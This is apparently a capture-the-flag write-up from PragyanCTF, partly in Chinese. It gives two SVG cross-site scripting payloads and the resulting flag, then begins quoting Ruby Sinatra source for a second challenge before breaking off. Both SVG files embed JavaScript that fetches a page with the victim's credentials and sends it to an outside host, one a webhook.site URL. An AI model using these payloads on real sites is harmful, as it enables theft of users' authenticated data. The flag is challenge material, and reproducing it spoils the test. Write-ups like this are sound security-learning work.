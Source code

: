 payload

```
<?xml version="1.0" encoding="UTF-8"?> 
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" id="Layer_1" x="0px" y="0px" width="100px" height="100px" viewBox="-12.5 -12.5 100 100" xml:space="preserve"> 
  <g>
    <polygon fill="#00B0D9" points="41.5,40 38.7,39.2 38.7,47.1 41.5,47.1 "></polygon>
    <script type="text/javascript">
      var xhr = new XMLHttpRequest();
      xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
          var xhr2 = new XMLHttpRequest();
          xhr2.open("POST", "your-public-ip", true);
          xhr2.send(xhr.responseText);
        }
      }   
      xhr.open("GET", "https://challenge-domain/home");
      xhr.withCredentials = true;
      xhr.send();
    </script>
  </g>
</svg>
```

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
(async function(){navigator.sendBeacon("https://webhook.site/c0e04b51-df34-409c-8fe3-6eacd23f5ccc",await fetch("https://excesscookiev2.challs.pragyanctf.tech/home").then(r=>r.text()).then(d=>d))})()
   </script>
</svg>
```

FLAG：p_ctf{x33_a4d_svg_m4k3s_b3st_p41r_on1y_w1th_http_0nly}

# Code of Chaos

robots.txt发现代码

```js
require 'sinatra/base'
require 'sinatra'
require "sinatra/cookies"

get '/' do
if request.cookies['auth']
@user = getUsername() # getUsername() - Method to get username from cookies
if @user.upcase == "MICHAEL"
return erb :michael
end
return erb:index
else
return erb :index
end
end

post '/login' do
user = params['username'].to_s[0..20]
password = params['password'].to_s[0..20]
if user =~ /[A-Z]/ or user == 'michael'
info = "Invalid Username/Password"
```